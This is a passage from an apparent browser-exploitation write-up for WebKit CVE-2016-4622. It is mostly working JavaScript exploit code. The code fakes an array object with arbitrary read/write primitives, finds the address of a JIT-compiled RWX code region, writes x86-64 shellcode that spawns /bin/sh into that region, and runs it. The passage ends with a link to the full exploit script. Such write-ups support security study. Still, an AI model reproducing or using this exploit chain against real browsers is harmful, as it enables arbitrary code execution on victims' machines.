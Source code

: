 ```javascript
memory.write(addrof(container), header);

var arr = new Float64Array(8);
header = memory.read(addrof(arr), 16);
var length = memory.read(Add(addrof(arr), 24), 8);
memory.write(addrof(fakearray), header);
memory.write(Add(addrof(fakearray), 24), length);
fakearray.container = container;
```
- We now create a JITed region that has RWX permissions, and get the address of that region using the primitives.

```javascript
function jit_funx() {
  function target(x) {
    return x;
  }
  for (var i = 0; i < 1000; i++) {
    target(i);
  }
  return target;
}


// 
var pwn = jit_funx();

var pwn_addr = addrof(pwn);
var rwx_addr = memory.read64(Add(pwn_addr, 24));
var jitCodeAddr = memory.read64(Add(rwx_addr, 24));
var shellcode = [
  0x48, 0x31, 0xc0, 0x50, 0x48, 0xbf, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x2f, 0x73,
  0x68, 0x57, 0x48, 0x89, 0xe7, 0x50, 0x48, 0x89, 0xe2, 0x57, 0x48, 0x89, 0xe6,
  0xb0, 0x3b, 0x0f, 0x05,
];

```
- Using the leak, write the shellcode to that address and then call the function.
```javascript
var code = memory.read64(Add(jitCodeAddr, 32));
memory.write(code, shellcode);
pwn();
```
- This will execute the shellcode and pop a shell.
![](https://i.imgur.com/4Ebofqm.gif)


Here is the [link](https://github.com/SanjayVardhan/browser-pwn/tree/main/webkit/CVEs/CVE-2016-4622) for the exploit script.